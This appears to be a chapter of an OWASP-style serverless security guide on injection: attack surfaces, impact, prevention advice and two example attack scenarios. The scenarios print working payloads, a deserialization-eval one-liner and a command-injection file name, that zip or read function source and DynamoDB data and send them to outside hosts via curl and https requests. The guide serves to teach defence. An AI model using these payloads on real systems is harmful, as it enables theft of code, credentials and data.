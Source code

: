 # S1:2017 Injection

## Attack Vectors

Attack vectors for injections in traditional applications are usually referred to any location where the input to the application can be controlled or manipulated by the attacker. However, in serverless applications the attack surface increases.

Since serverless functions can also be triggered from different events sources like cloud storage events (S3, Blob and other cloud storage), Stream data processing (e.g. AWS Kinesis), databases changes (e.g. DynamoDB, CosmosDB), code modifications (e.g. AWS CodeCommit) notifications (e.g. SMS, Emails, IoT) and more, we should no longer consider input coming directly from the API calls as the sole attack surface. 

Moreover, we no longer have control of the line between the origin to the resource. If a function is triggered via email or a database, there is nowhere to put a Firewall or any other control that will validate the event.

## Security Weakness

The traditional SQL/NoSQL Injection will be the same. OS Command Injection might not target the files in the container (e.g. `/etc/host`), but source code and other secrets could be found in the container. Code injection will allow an attacker to use the provider’s API to scan and interact with other services in the account.

## Impact

The impact of a successful injection attack will lean on the permission the vulnerable function has. If the function has been assigned a role that grants it liberal access to a cloud storage, then injected code could delete data, upload corrupted data, etc. If the function has been granted access to a database table, it could delete records, insert records, etc. Roles that allow creating users and permissions can eventually lead into a cloud account takeover.

## How to Prevent

- Never trust, pass or make any assumptions regarding input and its validity from any resource
- Use a safe API, which avoids the use of the interpreter entirely or provides a parameterized interface, or migrate to use Object Relational Mapping Tools (ORMs)
- Use positive or “whitelist” input validation when possible
- Identify trusted sources and resources and whitelist them, if possible
- For any residual dynamic queries, escape special characters using the specific escape syntax for that interpreter
- Consider all event types and entry points into the system
- Run functions with the least privileges required to perform the task to reduce attack surface
- Use a commercial runtime defense solution to protect functions on execution time

## Example Attack Scenario I

The following function code, repeatedly found in the wild, deserializes data using the `eval()` function:
![injection-1](images/0x01-injection-1.png)

The untrusted input is sent from the trigger’s event to the unserialize function without any validation. By sending the following payload, attackers can steal the source code of the function, simply by creating a new child_proccess that will zip the source-code found in the current directory, wrapping it up with base64 and sending it to any server they have access to:

>
    _$$ND_FUNC$$_function(){require("child_process").exec("tar -pcvzf /tmp/source.tar.gz ./;
    b=`base64 --wrap=0 /tmp/source.tar.gz`; curl -X POST https://serverless.fail/ --data
    $b",function(){});}()

The attacker can now investigate the code and use it to create a more cloud-native attack. For example, using the provider’s API to read from the database:

>
    _$$ND_FUNC$$_function(){var s=require("aws-sdk");var h=require("https"); var d=new
    s.DynamoDB.DocumentClient;d.scan({TableName:process.env.DYNAMODB_TABLE},function(e,a)
    {if(e);else{var t=Buffer.from(JSON.stringify(a)).toString();;var
    h.get(“https://serverless.fail?encodeURI(t)”),function(e){})}});}()

## Example Attack Scenario II

A function is triggered from a storage file upload. The function then downloads the file and processes it.

![injection-2](images/0x01-injection-2.png)

However, the the function is vulnerable to command injection, in case a downloaded file does not end with the required file extension (i.e. `.jpg`).

To exploit that, an attacker uses the application legitimately, but uploads two files. One of them contains a command injection syntax in its name:

>
    chip.gif c.jpg;cd ..; cd var;cd task;f=`head -50 lambda_function.py|base64 --wrap=0`;curl
    protego.ngrok.io?l="$f"

![injection-3](images/0x01-injection-3.png)

To exploit this vulnerability, the attacker needed to:

- Address an existing file (i.e. chip.gif, which he himself uploaded before)
- Exit the `/tmp` folder
- Enter the `/var/task` folder (Use of `/` in the object name is not allowed)
- Read the first 50 lines of `lambda_function.py` and with it the hardcoded keys to the management AWS account
- Wrap the code in base64
- Send it to a destination held by the attacker

As a result of the Lambda execution, a request is sent to the attacker, containing the function’s code:

![injection-4](images/0x01-injection-4.png)

![injection-5](images/0x01-injection-5.png)